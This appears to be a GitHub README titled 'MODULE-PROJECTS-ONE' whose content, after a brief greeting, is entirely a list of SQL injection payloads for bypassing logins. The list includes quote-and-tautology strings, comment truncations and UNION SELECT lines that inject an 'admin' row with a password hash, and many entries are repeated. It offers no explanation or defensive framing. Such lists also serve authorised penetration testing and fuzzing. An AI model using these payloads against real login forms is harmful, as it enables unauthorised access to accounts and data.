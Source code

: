 # MODULE-PROJECTS-ONE
🎭NICE TO SEE YOU FRIEND🎭

'or 1=1 limit 1 -- -+
admin'#
admin'or'1'='1
admin'or''='1'#
admin'or'' =1 or "='
'or '1=1 limit 1 -- -+
'or '1'='1
'or 'x'='
'or 0=0 --
'or' 0=0 #
'or 1=1 --
'or 'one'='one
'or 1=1-- -

or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
'or 1=1 limit 1 -- -+
'=' 'or'
or '1'='1
' or '1'='1
' or 'x'='x
' or 0=0 --
" or 0=0 --
or 0=0 --
' or 0=0 #
" or 0=0 #
or 0=0 #
' or 'x'='x
" or "x"="x
') or ('x'='x
' or 1=1--
" or 1=1--
or 1=1--
' or a=a--
" or "a"="a
') or ('a'='a
") or ("a"="a
hi" or "a"="a
hi" or 1=1 --
hi' or 1=1 --
'or'1=1'
==
and 1=1--
and 1=1
' or 'one'='one--
' or 'one'='one
' and 'one'='one
' and 'one'='one--
1') and '1'='1--
admin' --
admin' #
admin'/*
or 1=1--
or 1=1#
or 1=1/*
) or '1'='1--
) or ('1'='1--
' or '1'='1
' or 'x'='x
' or 0=0 --
" or 0=0 --
or 0=0 --
' or 0=0 #
" or 0=0 #
or 0=0 #
' or 'x'='x
" or "x"="x
') or ('x'='x
' or 1=1--
" or 1=1--
or 1=1--
' or a=a--
" or "a"="a
') or ('a'='a
") or ("a"="a
hi" or "a"="a
hi" or 1=1 --
hi' or 1=1 --
'or'1=1'




